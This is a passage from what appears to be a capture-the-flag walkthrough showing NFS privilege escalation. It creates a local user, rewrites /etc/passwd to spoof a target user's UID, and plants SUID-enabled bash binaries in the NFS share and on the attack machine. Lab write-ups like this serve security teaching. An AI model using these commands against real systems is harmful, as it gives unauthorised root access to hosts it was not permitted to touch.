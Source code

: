 ```bash
sudo useradd shareuser 
```

![image.png](../images/hybrid%2018.png)

now let’s change it’s sed to the sed of peter.turner

```bash
sudo sed -i -e 's/1002/902601108/g' /etc/passwd
```

![image.png](../images/hybrid%2019.png)

now let’s go and copy the bash binary to the nfs directory and add SUID binary to it

```bash
cp /usr/bin/bash /opt/share;chmod +x /opt/share/bash;chmod +s /opt/share/bash
```

![image.png](../images/hybrid%2020.png)

Now on our attack machine let’s copy the bash binary to the tmp and add the SUID to it

```bash
cp /usr/bin/bash /tmp;chmod +x /tmp/bash;chmod +s /tmp/bash
```
